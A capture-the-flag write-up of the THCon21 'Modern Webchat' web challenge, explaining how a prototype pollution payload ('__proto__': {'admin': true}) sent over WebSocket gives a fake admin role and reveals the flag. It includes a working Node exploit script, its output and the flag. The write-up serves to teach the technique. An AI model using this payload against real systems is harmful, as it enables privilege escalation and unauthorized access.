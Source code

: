 # Modern Webchat

**Web** (250 points/ 5 solves)

## Description

IRC is a relic of the past.

## Solution

We visit the website and we land on a web chat where we can choose a nickname and a color. We can login and then be able send messages.

From time to time we receive a message from the admin wich say :

> **[admin]** **LePireBot**: _Message restricted to administrators._

Obviously we must fake the fact that we are admin in order to see the message.

When we start investigating on the app, we quickly find out a `main.js` file in the source code of the page.

 ```javascript
(() => {
  const escape = (string) =>
    string.replace(/[&<>"']/g, (chr) => {
      return {
        "&": "&amp;",
        "<": "&lt;",
        ">": "&gt;",
        '"': "&quot;",
        "'": "&#39;",
      }[chr];
    });

  const ws = new WebSocket("ws://" + location.host);

  const $loginForm = document.querySelector("#login-form");
  const $messageForm = document.querySelector("#message-form");
  const $messages = document.querySelector("#messages");

  const createMessage = (data) => {
    const $el = document.createElement("div");
    $el.className = "message";
    $el.innerHTML = `${
      data.user.admin ? "<strong>[admin]</strong> " : ""
    }<strong style="color:${data.user.color}">${escape(
      escape(data.user.nickname)
    )}</strong>: ${
      data.messageRestricted
        ? "<i>Message restricted to administrators.</i>"
        : escape(data.message)
    }`;
    return $el;
  };

  const displayConnectionError = () => {
    $messages.appendChild(
      createMessage({
        user: { nickname: "Error", color: "#ff0000" },
        message: "Connection closed unexpectedly. Please refresh the page.",
      })
    );
  };

  ws.onmessage = (e) => {
    const shouldScroll =
      $messages.scrollTop + $messages.clientHeight === $messages.scrollHeight;
    const data = JSON.parse(e.data);
    $messages.appendChild(createMessage(data));
    if (shouldScroll) {
      $messages.scrollTop = $messages.scrollHeight;
    }
    if ("successfulLogin" in data) {
      $loginForm.hidden = true;
      $messageForm.hidden = false;
    }
  };

  ws.onerror = ws.onclose = (e) => displayConnectionError();

  $loginForm.addEventListener("submit", (e) => {
    e.preventDefault();
    if (ws.readyState !== ws.OPEN) {
      return;
    }
    ws.send(
      JSON.stringify({
        nickname: $loginForm.elements.nickname.value,
        color: $loginForm.elements.color.value,
      })
    );
  });

  $messageForm.addEventListener("submit", (e) => {
    e.preventDefault();
    if (ws.readyState !== ws.OPEN) {
      return;
    }
    ws.send(
      JSON.stringify({
        message: $messageForm.elements.message.value,
      })
    );
    $messageForm.elements.message.value = "";
  });
})();
```

So basically what we learned from this file is that the chat is based on websockets and communicating using json data.

At this point we can assume that the goal of the challenge is not to perform an xss because this `escape` function will well prevent it.

```javascript
const escape = (string) =>
   string.replace(/[&<>"']/g, (chr) => {
     return {
       "&": "&amp;",
       "<": "&lt;",
       ">": "&gt;",
       '"': "&quot;",
       "'": "&#39;",
     }[chr];
   });
```

But we also find out that there is an admin property in the user class in `createMessage` function.

While debugging the websockets we can also see this admin property in the message received from the bot.

```json
{
  "user": { "nickname": "LePireBot", "color": "#ECA400", "admin": true },
  "messageRestricted": true
}
```

So the plan is to register as admin by setting admin to `true`, for that we gonna try to just append this at the end of the json data.
A classic registration look like : 

```json
{"nickname": "xl00t", "color": "#1337FF"}
```

So our first payload is :

```json
{"nickname": "xloot", "color": "#1337FF", "admin": true}
```
But as suspected the payload will not be so simple.

After some research into the potential vulnerability of `JSON.parse()`, we find somes articles about **Prototype Pollution** in JS.

In simple terms this vulnerabity will allow us to add the admin property by using the prototype property of the user object.

Accessing a prototype in javascript can be done with `prototype` or `__proto__` property.

With that we can access object properties in different ways :

 - `user.nickname`
 - `user.prototype.nickname`
 - `user.__proto__.nickname`

Lets wrap up everything we learn so far and craft our final payload :

```json
{
    "nickname": "xloot",
    "color": "#1337ff",
    "__proto__": {
        "admin": true
    }
}
```

We reuse and modify the `main.js` file we saw earlier in order to send our payload and wait for the bot message.

```javascript
const WebSocket = require('ws');

const ws = new WebSocket("ws://remote1.thcon.party:10001");
var input = process.openStdin();

ws.onmessage = (e) => {
  const data = JSON.parse(e.data);
  console.log(data);
};

input.addListener("data", function(mes) {
    if (ws.readyState !== ws.OPEN)
        return;

    var payload = '{"nickname": "xloot","color": "#1337ff","__proto__": {"admin": true}}';
    ws.send(payload);

    var messageJson = {message: mes.toString()};
    ws.send(JSON.stringify(messageJson));
});
```

Now we lauch this script and enter a message in order to send our payload.

```
xl00t@DESKTOP:~/thcon/modern-chat$ node main.js
{
  user: { nickname: 'Info', color: '#0088ff' },
  message: 'Connected to the chat room.'
}
Gimme Flag
{
  user: { nickname: 'Info', color: '#0088ff' },
  message: 'xloot joined the chat room! 2 people connected.',
  successfulLogin: true
}
{
  user: { nickname: 'xloot', color: '#1337ff' },
  message: 'Gimme Flag\n'
}
{
  user: { nickname: 'LePireBot', color: '#ECA400', admin: true },
  message: 'Well done! Here is the flag: THCon21{__1000_points_pour_Gryffondor__}'
}
```

Well , we got the flag `THCon21{__1000_points_pour_Gryffondor__}` !

## References:
 - https://theflyingmantis.medium.com/javascript-a-prototype-based-language-7e814cc7ae0b
 - https://developer.mozilla.org/en-US/docs/Learn/JavaScript/Objects/Inheritance
 - https://medium.com/intrinsic/javascript-prototype-poisoning-vulnerabilities-in-the-wild-7bc15347c96
 - https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution

